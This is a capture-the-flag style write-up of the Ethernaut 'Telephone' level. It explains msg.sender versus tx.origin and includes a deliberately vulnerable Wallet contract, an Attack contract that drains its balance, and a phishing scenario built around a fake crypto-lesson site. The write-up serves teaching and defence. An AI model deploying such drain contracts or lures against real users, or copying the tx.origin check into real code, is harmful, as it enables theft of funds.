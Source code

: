 [Level 4. Telephone](https://ethernaut.openzeppelin.com/level/4)

## In A Nutshell

> `msg.sender` is the most recent caller, while `tx.origin` is the original initiator.

## Concepts

1. The meaning of `msg.sender` and `tx.origin`, as well as the difference between these two global variables.

## Level Target

1. Take ownership of the contract.

## Breakdown & Analysis

1. Let's begin by identifying the lines of code that pertain to assigning the value of `owner`.

    1. The assignment in the function `changeOwner`.
   
    2. There are no other lines allowing us to change the value of `owner`. (we can’t get access to the `constructor` since it’s not included in the contract bytecode)
    
    So the only way is to crack from the function `changeOwner`.
    
2. To successfully call `changeOwner`, we’ll have to make the value of `msg.sender` and the value of `tx.origin` different.

    1. **`msg.sender` is the last caller that invokes the function, it can be an externally-owned account(EOA) or a contract account(CA).**
   
    2. **`tx.origin` represents the EOA that initiated the transaction. Since smart contracts can’t be invoked automatically, there will be an EOA that initiates the transaction, therefore the `tx.origin` value always refers to the original EOA that started the transaction.**
        
    Consider a simple example: Alice → contract A → contract B.
        
    The `msg.sender` of contract B is the address of contract A, yet, the `tx.origin` of contract B is Alice.
        
    And that is how we can make `msg.sender` and `tx.origin` different in this level.
        

## Detailed Steps

See [Attack.sol](https://github.com/timou0911/Ethernat-Solution-and-Explanation/blob/main/4.%20Telephone%20%E2%98%85%E2%98%86%E2%98%86%E2%98%86%E2%98%86/Attack.sol).

## Fhishing through `tx.origin`

Let’s say we have a contract called Wallet and Bob staked his ether inside it. Here’s the code:

```Solidity
contract Wallet {
    address public owner;

    constructor() payable {
        owner = msg.sender;
    }

    function transfer(address payable _to, uint _amount) public {
        require(owner == tx.origin, "Not owner");
        (bool sent, ) = _to.call{value: _amount}("");
        require(sent, "Tx failed");
    }
}
```

And the code below is a malicious contract:

```Solidity
contract Attack {
    address payable public owner;
    Wallet wallet;

    constructor(Wallet _wallet) {
        wallet = Wallet(_wallet); // the target address
        owner = payable(msg.sender); // the attacker
    }

    function attack() public { // 
        wallet.transfer(owner, address(wallet).balance);
    }
}
```

Here’s one possible hacking process:

1. First of all, the attacker discovered that Bob had a keen interest in cryptocurrency investments.

2. The attacker sent a fake crypto-investing teaching website to Bob via email.

3. Since it is common to connect a wallet to such websites, Bob might be lured to purchase a lesson by signing the transaction through his wallet.

4. However, the transaction he signed didn’t buy him the online lesson; the transaction called `attack` in the malicious contract, and then `attack` called `transfer` in the Wallet contract, transferring all of Bob’s ethers to the attacker’s wallet.

5. Actually, Bob did get a lesson now.

Attackers may utilize soical engineering to incresase the success rate. Also, they can create multiple contracts to hide their real purpose.

To protect your contract, it’s not suitable to check permission through `tx.origin`. **A better practice is to use `msg.sender`.**
